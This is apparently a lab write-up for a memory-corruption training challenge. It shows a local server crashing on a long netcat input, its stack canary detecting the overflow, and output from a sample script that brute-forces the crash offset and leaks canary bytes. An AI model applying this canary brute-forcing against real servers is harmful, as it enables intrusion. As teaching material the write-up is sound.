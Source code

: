 ## Normal behaviour

Lets start the server:

```
root@hlUbuntu64:~/challenges/challenge14# ./challenge14-server
Listening to port: 32001
```

Lets send a small amount of data :

```
root@hlUbuntu64:~/challenges/challenge14# nc localhost 32001
AAAABBBB
ok
```

We sent `AAAABBBB`, and the server answered with `ok`. Note that the connection is still
open, netcat did not exist, and we could send more data.

The server will output:
```
Got a connection from 127.0.0.1 on port 57728
Received: 9 bytes
Send: OK
```

## Overflow

Lets send some more data this time:
```
root@hlUbuntu64:~/challenges/challenge14# nc localhost 32001
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
root@hlUbuntu64:~/challenges/challenge14#
```

As we see, netcat exited after sending the long string. What did the server output:
```
Got a connection from 127.0.0.1 on port 57730
Received: 52 bytes
*** stack smashing detected ***: ./challenge14-server terminated
```

We compiled the server with enabled stack canary, and it does detect the stack corruption.


## Exploit

A sample exploit is provided in the file `challenge14-bruteforce.py`. When started it has the
following output:

```
root@hlUbuntu64:~/challenges/challenge14# ./challenge14-bruteforce.py
Send 16: AAAAAAAAAAAAAAAA
Send 17: AAAAAAAAAAAAAAAAA
Send 18: AAAAAAAAAAAAAAAAAA
Send 19: AAAAAAAAAAAAAAAAAAA
Send 20: AAAAAAAAAAAAAAAAAAAA
Send 21: AAAAAAAAAAAAAAAAAAAAA
Send 22: AAAAAAAAAAAAAAAAAAAAAA
Send 23: AAAAAAAAAAAAAAAAAAAAAAA
Send 24: AAAAAAAAAAAAAAAAAAAAAAAA
Send 25: AAAAAAAAAAAAAAAAAAAAAAAAA
Crash of server at offset: 25
Offset is: 24
Found byte: 0x0
Found byte: 0x19
Found byte: 0x8b
Found byte: 0xd0
```